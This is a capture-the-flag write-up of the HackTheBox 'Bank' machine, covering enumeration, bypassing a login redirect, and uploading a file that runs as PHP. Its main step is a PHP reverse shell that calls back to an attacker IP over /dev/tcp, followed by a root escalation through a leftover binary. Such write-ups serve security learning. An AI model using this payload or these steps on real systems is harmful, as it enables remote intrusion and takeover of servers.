

host: `10.10.10.29`

**Serivce Discovery**

nmap -A 10.10.10.29

```
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid:
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server by typing [http://10.10.10.29](http://10.10.10.29) in the url bar but it was just the default apache site.

I saw that dns was open so I edited /etc/hosts to contain the ip of the machine plus the name server of the machine . The default name server for all _HackTheBox_ machines is <name of box>.htb so I edited the hosts file as followed

```
cat /etc/hosts

127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet

10.10.10.29 bank.htb
```

Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v [http://bank.htb](http://bank.htb) you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.

```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```

I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. So I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.



I added [http://bank.htb/login.php](http://bank.htb/login.php) to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access [http://bank.htb/](http://bank.htb/) and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl [http://bank.htb/support.php](http://bank.htb/support.php) and scroll through the html code you can see that the admin left him self a little nice note for himself.

**_“<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”_**

I created a php shell as followed

```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```

and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell it’s uploaded. Now all I had to do is set up a netcat listener to catch the shell. `nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**_Got User Flag!_**

Now time it’s time for privilege escalation. I started by just browsing through the directories and in /var I found a folder named htb inside htb I found two files with execute permissions

```
www-data@bank:/var/htb$ ls -la
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```

it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…

My privilege before running the exploit
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit

./emergency
`uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)`

and now we can get the root flag. `cat /root/root.txt`

**_Got Root Flag!_**
